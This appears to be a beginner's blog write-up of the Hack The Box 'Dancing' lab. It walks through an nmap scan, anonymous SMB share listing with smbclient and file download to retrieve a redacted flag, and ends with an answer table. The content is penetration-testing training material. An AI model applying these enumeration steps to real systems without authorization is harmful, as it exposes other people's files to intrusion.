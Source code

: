 # 🕺 Dancing | Hack The Box  
Note: I’m not an expert. I’m writing this blog just to document my learning journey. 🚀

---

## 🔧 Step 1: Connect to Hack The Box

First, connect your system to the HTB VPN using the `.ovpn` config file.

```bash
sudo openvpn htb.ovpn
```

Wait for the message:
`Initialization Sequence Completed`

---

## 🎯 Step 2: Get the Target IP

Click **Spawn Machine** on the HTB site to get the target IP.
Example IP:

```
10.129.22.153
```

---

## 🔍 Step 3: Scan with Nmap

Use Nmap to find open ports and running services:

```bash
nmap -A 10.129.22.153
```

### Key Results:

- Port 135 – msrpc
- Port 139 – netbios-ssn
- Port 445 – microsoft-ds (SMB)

This confirms SMB is running on the target.

---

## 📦 Step 4: What Is SMB?

**SMB (Server Message Block)** is a protocol used to share files and printers over a network — mostly on Windows systems.

---

## 🧰 Step 5: Install smbclient

`smbclient` lets us access SMB shares from the terminal.

Install it:

```bash
sudo apt update
sudo apt install smbclient
```

---

## 📂 Step 6: List Available Shares

Use `smbclient` to list the shares:

```bash
smbclient -L \\\\10.129.22.153\\ -N
```

### Output:

```
ADMIN$
C$
IPC$
WorkShares
```

We’ll explore `WorkShares` — the only one that might be accessible.

---

## 🔓 Step 7: Access WorkShares

```bash
smbclient \\\\10.129.22.153\\WorkShares -N
```

Then list the contents:

```bash
ls
```

Output:

```
Amy.J
James.P
```

---

## 📁 Step 8: Explore & Download Files

### 1. Get worknotes from Amy.J

```bash
cd Amy.J
ls
get worknotes.txt
```

### 2. Get the flag from James.P

```bash
cd ..
cd James.P
ls
get flag.txt
exit
```

---

## 📜 Step 9: Read the Flag

```bash
cat flag.txt
```

Output:

```
<FLAG REDACTED>
```

---

## ✅ Recap

| Question                             | Answer               |
| ------------------------------------ | -------------------- |
| What does SMB stand for?             | Server Message Block |
| What port does SMB use?              | 445                  |
| What is the service on port 445?     | microsoft-ds         |
| What flag lists shares in smbclient? | -L                   |
| How many shares are listed?          | 4                    |
| Which share is accessible?           | WorkShares           |
| Command to download a file?          | get                  |
| Final flag?                          | <FLAG REDACTED>      |

---

## 🎉 Conclusion

This box teaches basic SMB enumeration and shows how anonymous access to file shares can lead to information leaks.

Perfect starting point for anyone new to penetration testing.

---
